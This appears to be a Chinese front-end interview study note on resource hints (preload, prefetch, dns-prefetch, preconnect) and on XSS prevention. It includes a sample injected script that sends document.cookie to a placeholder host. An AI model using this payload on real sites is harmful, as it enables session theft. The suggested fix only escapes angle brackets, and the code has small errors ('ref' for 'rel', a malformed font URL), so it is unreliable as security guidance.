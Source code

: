 prefetch：资源在未来页面使用，空闲时加载

```html
<head>
    <link rel="preload" href="style.css" as="style">
    <link rel="preload" href="main.js" as="script">
    
    <link rel="prefetch" href="other.js" as="script">
    
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <script src="main.js" defer></script>
</body>
```



dns-prefetch：dns预解析

preconnect：dns预连接（TCP预连接）

![](https://raw.githubusercontent.com/AvalonZzz/images/master/imgs/202302010011746.png)

```html
<link rel="dns-prefetch" href="https://fonts/gstatic.com">
<link ref="preconnect" href="https://fonts.gstatic.com">
```

### 前端有哪些攻击手段，该如何预防？

XSS（Cross Site Script跨站脚本攻击）：黑客将js代码插入到网页内容中，渲染时执行js代码。预防：替换特殊字符

**Vue和react的插值默认规避XSS攻击，除非用v-html或dangerouslySetInnerHTML**

```html
<div id="container">
	<p>
        <!--p标签中的123123是接口返回的数据，黑客在这基础上新增了一段js脚本，img可跨域，这样就能收集到所有用户的cookie了-->
        123123
        <script>
        	var img = document.createElement('img')
            img.src="https://xxx.com/api/xxx?cookie="+document.cookie
        </script>
    </p>
</div>
```

```js
// 解决方式：替换特殊字符
const str = `
		123123
        <script>
        	var img = document.createElement('img')
            img.src="https://xxx.com/api/xxx?cookie="+document.cookie
        </script>
`
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```
